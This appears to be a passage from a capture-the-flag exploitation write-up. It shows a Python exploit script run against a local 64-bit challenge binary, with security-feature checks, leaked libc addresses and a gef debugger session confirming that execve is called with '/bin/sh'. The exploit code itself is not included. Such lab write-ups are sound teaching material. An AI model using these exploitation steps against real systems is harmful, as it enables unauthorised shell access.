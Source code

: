# Pwned

As we are done understanding the payload, it's time to run the final script:-

---

> Note: I put a breakpoint at `execve`. This will help us to check the arguments provided to it.

```asm
gef➤  b *execve
Breakpoint 1 at 0x7fa7defa0e30: file ../sysdeps/unix/syscall-template.S, line 78.
```

---

```asm
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 15085
[*] puts@libc : 0x7f09dd95e9c0
[*] libc      : 0x7f09dd8de000
[*] '/bin/sh' : 6295888
[*] Paused (press any to continue)
```

Now, we will attach the process, and continue:-

```asm
gef➤  b *execve
Breakpoint 1 at 0x7f09dd9c2e30: file ../sysdeps/unix/syscall-template.S, line 78.
gef➤  c
Continuing.
[ Legend: Modified register | Code | Heap | Stack | String ]

-- snip -- 

───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7f09dd9c2e30 in execve (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f09dd9c2e30 → execve()
──────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, execve () at ../sysdeps/unix/syscall-template.S:78
78	../sysdeps/unix/syscall-template.S: No such file or directory.

gef➤  x/s $rdi
0x601150:	"/bin/sh"
gef➤  x/x $rdx
0x0:	Cannot access memory at address 0x0
gef➤  x/x $rsi
0x0:	Cannot access memory at address 0x0
```
